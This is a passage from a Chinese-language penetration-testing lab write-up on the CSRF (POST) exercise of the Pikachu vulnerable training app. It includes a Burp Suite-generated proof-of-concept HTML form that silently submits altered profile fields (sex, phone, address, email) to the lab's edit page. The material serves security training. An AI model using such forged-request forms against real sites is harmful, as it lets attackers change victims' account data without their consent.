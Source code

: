同样，登陆，修改一下个人信息，并到 Brup Suite 上进行抓包，对于 POST型，请求已经不能通过修改 URL 来借用用户权限，那么需要自己做一个表单，再返回到提交页面来完成修改。

**漏洞利用**

直接从 burp 生成 poc 表单

![image](../../../img/渗透/实验/pikachu/21.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://<IP address>/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="futa1" />
      <input type="hidden" name="phonenum" value="1110" />
      <input type="hidden" name="add" value="1213" />
      <input type="hidden" name="email" value="lil1i&#64;pikachu&#46;com1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![image](../../../img/渗透/实验/pikachu/22.png)
